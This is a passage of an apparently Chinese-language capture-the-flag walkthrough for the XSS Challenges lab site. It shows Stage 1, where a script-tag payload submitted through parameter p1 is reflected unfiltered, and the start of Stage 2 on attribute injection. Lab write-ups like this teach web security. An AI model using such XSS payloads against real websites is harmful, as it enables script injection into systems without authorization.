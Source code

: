 查看源码

```
<b>"hello"</b>
```

**判断能否执行 javascript 代码**

设置 `p1=<script>alert(document.domain);</script>`，提交代码

```
<script>alert(document.domain);</script>
```

![提交代码](./../../../../image/XSS%20Challenges/%E6%8F%90%E4%BA%A4%E4%BB%A3%E7%A0%81.png)

查看源码

```
<b>"<script>alert(document.domain);</script>"</b>
```

> 发现插入到 \<b> \</b> 标签中，说明插入成功，且未过滤

### 1.1.2 Stage #2 属性中的 XSS 注入

>https://xss-quiz.int21h.jp/stage2.php

**查看可控参数**

查看交互栏源码

```
<input type="text" name="p1" size="60" value="">
```

**查找页面的回显**

在交互栏输入 hello

![在交互栏输入 hello](./../../../../image/XSS%20Challenges/%E5%9C%A8%E4%BA%A4%E4%BA%92%E6%A0%8F%E8%BE%93%E5%85%A5%20hello.png)
